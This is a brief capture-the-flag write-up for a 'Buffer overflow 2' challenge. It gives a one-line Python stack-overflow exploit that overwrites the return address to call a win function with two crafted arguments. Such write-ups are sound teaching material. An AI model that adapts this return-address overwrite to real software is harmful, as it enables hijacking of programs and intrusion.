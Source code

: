 # Buffer overflow 2

Simple bof, but need to modify arguments so that we can get flag

payload + return address to win function + fake return address of win function + arg1 + arg2

```python -c 'print("A" * 0x70 + "\xcb\x85\x04\x08" + "\x00\x00\x00\x00" + "\xef\xbe\xad\xde" + "\xde\xc0\xad\xde")' | ./vuln```